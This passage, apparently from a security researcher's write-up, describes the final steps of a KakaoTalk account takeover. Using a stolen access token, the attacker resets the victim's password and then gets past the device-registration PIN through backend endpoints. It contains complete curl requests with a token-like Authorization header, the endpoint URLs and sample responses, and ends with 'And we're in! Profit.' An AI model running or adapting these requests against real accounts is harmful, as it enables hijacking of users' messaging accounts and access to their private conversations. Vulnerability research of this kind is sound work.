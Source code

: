 ### Attacker uses the access token to reset the victim's password

Next, the attacker can now reset her/his KakaoTalk password (see instructions [above](#kakaotalk-password-reset-with-burp)).

### Attacker registers her/his device the victim's KakaoTalk account

When logging into KakaoTalk for Windows/MacOS or KiwiTalk with the victim's credentials a second authentication factor is required. It's a simple 4-digit pin which is either displayed in the PC version and needs to be entered in the KakaoTalk mobile app or the other way around (i.e., pin is sent to mobile app and needs to be entered in PC app).

Unfortunately, the pin can't be brute-forced as there's some rate limiting going on at the endpoints https://talk-pilsner.kakao.com/talk-public/account/passcodeLogin/authorize and https://katalk.kakao.com/win32/account/register_device.json (blocked after 5 attempts).

Luckily, we can still use the gathered access token to post/get the pin number to/from the KakaoTalk backend:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: talk-pilsner.kakao.com' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'Talk-Agent: android/10.4.3' -H $'Talk-Language: en' -H $'Content-Type: application/json; charset=UTF-8' -H $'Content-Length: 19' -H $'Accept-Encoding: gzip, deflate, br' -H $'User-Agent: okhttp/4.10.0' \
    --data-binary $'{\"passcode\":\"8825\"}' \
    $'https://talk-pilsner.kakao.com/talk-public/account/passcodeLogin/authorize'
```

Example response:

```json
{"device":{"name":"foo"},"status":0}
```

In case the pin is sent to the KakaoTalk mobile app use this curl query:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.4.3 An/11 en' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'A: android/10.4.3/en' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/sub_device/settings/info.json'
```

Example response:

```json
{"status":0,"isVerified":true,"passcode":"8825"}
```

And we're in! Profit 🥳🥳🥳

https://github.com/stulle123/kakaotalk_analysis/assets/14765446/7fd439c5-b96b-49d9-b8b5-cd9be2a51fe9

